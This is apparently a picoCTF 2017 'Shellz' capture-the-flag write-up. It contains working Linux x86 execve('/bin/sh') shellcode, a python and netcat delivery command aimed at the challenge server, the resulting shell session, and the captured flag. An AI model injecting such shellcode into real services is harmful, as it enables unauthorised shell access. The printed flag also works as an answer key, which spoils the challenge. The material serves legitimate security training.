 # Shellz
---
### Question
You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:34621.

### HINTS

There is a bunch of preexisting shellcode already out there!

---
# Solution

It was time taking challenge I went to shell-strome website and keep trying different shellcodes. Then this [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) was working. 

```bash
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org
Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
*/
#include <stdio.h>
char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";
int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
```

I just copied the shellcode
```shell
"\x31\xc0\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89"
"\xe3\x89\xc1\x89\xc2\xb0\x0b"
"\xcd\x80\x31\xc0\x40\xcd\x80"
```

so just write this shellcode in one file. 
    ```
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
    ```
    
```python
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"' > spirit
```

now just cat it out with the : shell2017.picoctf.com:34621

```bash
$cat spirit - | nc shell2017.picoctf.com 34621
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
~whoami
shellz_2
~ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
~cat flag.txt
f6f01bf0649b5aa5ec299bb51c8f8db4
```

If you are thinking why i used ```-``` then it's just used for concatenate files and print out the standard output.

I think we got the flag.
```
f6f01bf0649b5aa5ec299bb51c8f8db4
```
  Hope you liked it
   ~Thanks
   
   [@spiritedwolf](https://github.com/spiritedwolf)

---

